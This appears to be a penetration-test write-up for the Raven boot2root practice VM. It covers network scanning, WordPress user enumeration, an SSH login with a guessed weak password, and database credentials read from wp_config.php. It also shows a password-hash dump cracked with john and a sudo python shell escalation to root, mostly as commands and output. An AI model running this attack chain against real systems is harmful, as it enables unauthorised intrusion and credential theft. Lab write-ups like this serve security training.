 # Red Team: Summary of Operations

### Exposed Services and Exploitation

Nmap scan results for each machine reveal the below services and OS details:

First I performed a port scan using `nmap` to enumerate the entire network:

> nmap -Pn 192.168.1.0/24
Starting Nmap 7.80 ( https://nmap.org ) at 2022-02-28 15:15 PST
Nmap scan report for 192.168.1.1
Host is up (0.00056s latency).
Not shown: 995 filtered ports
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
2179/tcp open  vmrdp
3389/tcp open  ms-wbt-server
MAC Address: 00:15:5D:00:04:0D (Microsoft)

> Nmap scan report for 192.168.1.100
Host is up (0.00085s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
9200/tcp open  wap-wsp
MAC Address: 4C:EB:42:D2:D5:D7 (Intel Corporate)

> Nmap scan report for 192.168.1.105
Host is up (0.00089s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:15:5D:00:04:0F (Microsoft)

> Nmap scan report for 192.168.1.110
Host is up (0.0011s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
111/tcp open  rpcbind
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 00:15:5D:00:04:10 (Microsoft)

> Nmap scan report for 192.168.1.115
Host is up (0.00069s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
111/tcp open  rpcbind
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 00:15:5D:00:04:11 (Microsoft)

> Nmap scan report for 192.168.1.90
Host is up (0.000010s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh

> Nmap done: 256 IP addresses (6 hosts up) scanned in 6.74 seconds

Then I delved more fully into two machines in particular to gather exposed services:

> nmap -sV 192.168.1.110
Nmap scan report for 192.168.1.110
Host is up (0.00053s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind     2-4 (RPC #100000)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:10 (Microsoft)
Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

> nmap -sV 192.168.1.115
Nmap scan report for 192.168.1.115
Host is up (0.00057s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind     2-4 (RPC #100000)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:11 (Microsoft)
Service Info: Host: TARGET2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

The following vulnerabilities were identified on each target:
* Target 1
  - User enumeration

    The team was able to use a Wordpress scan to enumerate the users using the command:

    `wpscan --url http://192.168.1.110 --enumerate u`

    Results of the scan identified two users:

    >3 4m[i][0m User(s) Identified:

    > [32m[+][0m steven
     | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
     | Confirmed By: Login Error Messages (Aggressive Detection)

    > [32m[+][0m michael
     | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
     | Confirmed By: Login Error Messages (Aggressive Detection)

  - Weak password

    Attackers were then easily able to `ssh` into the target by guessing the weak password of user `michael`, which was "michael".

    > ssh michael@192.168.1.110    
    > michael@192.168.1.110's password:

    > michael@target1:~$ ls

    Attackers were then able to use `grep` to find "flag1" inside of /var/www/html/service.html:

    > cat /var/www/html/service.html:			<!-- flag1{b9bbcb33e11b80be759c4e844862482d} -->

    Found flag2 the same way.  Traversed the file system and found inside the /var/www directory.

    > michael@target1:~$ cat /var/www/flag2.txt
    > flag2{fc3fd58dcdad9ab23faca6e9a36e581c}

  - Insecure password

    As the attackers were further searching the system, found credentials for the Wordpress database inside of /var/www/html/wp_config.php:

    > /** The name of the database for WordPress */
    define('DB_NAME', 'wordpress');

    > /** MySQL database username */
    define('DB_USER', 'root');

    > /** MySQL database password */
    define('DB_PASSWORD', 'R@v3nSecurity');

    Used those credentials to get into the Wordpress database and find flag3:

    > ichael@target1:~$ mysql -u root -p wordpress
      Enter password:
      Reading table information for completion of table and column names
      You can turn off this feature to get a quicker startup with -A

    >  Welcome to the MySQL monitor.  Commands end with ; or \g.
      Your MySQL connection id is 42
      Server version: 5.5.60-0+deb8u1 (Debian)

      Copyright (c) 2000, 2018, Oracle and/or its affiliates. All rights reserved.



> mysql> use wordpress;
Database changed
mysql> show tables;
+-----------------------+
| Tables_in_wordpress   |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
12 rows in set (0.00 sec)

select * from wp_posts;

| 2018-08-13 01:48:31 | 0000-00-00 00:00:00 | flag3{afc01ab56b50591e7dccf93122770cd2}

And was able to find additional users hashes in wp_users.

mysql> select * from wp_users;
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+----------------+
| ID | user_login | user_pass                          | user_nicename | user_email        | user_url | user_registered     | user_activation_key | user_status | display_name   |
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+----------------+
|  1 | michael    | $P$BjRvZQ.VQcGZlDeiKToCQd.cPw5XCe0 | michael       | michael@raven.org |          | 2018-08-12 22:49:12 |                     |           0 | michael        |
|  2 | steven     | $P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/ | steven        | steven@raven.org  |          | 2018-08-12 23:31:16 |                     |           0 | Steven Seagull |
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+----------------+

  - Privilege escalation

Was able to use 'john' to crack the password for Steven (pink84), and then use that to escalate privileges and fine flag4:

michael@target1:~$ su - steven
Password:
$ sudo python -c 'import pty;pty.spawn("/bin/bash")'        
root@target1:/home/steven# cd /root
root@target1:~# ls
flag4.txt
root@target1:~# cat flag4.txt
______                      

| ___ \                    

| |_/ /__ ___   _____ _ __  

|    // _` \ \ / / _ \ '_ \

| |\ \ (_| |\ V /  __/ | | |

\_| \_\__,_| \_/ \___|_| |_|


flag4{715dea6c055b9fe3337544932f2941ce}

CONGRATULATIONS on successfully rooting Raven!

This is my first Boot2Root VM - I hope you enjoyed it.

Hit me up on Twitter and let me know what you thought:

@mccannwj / wjmccann.github.io
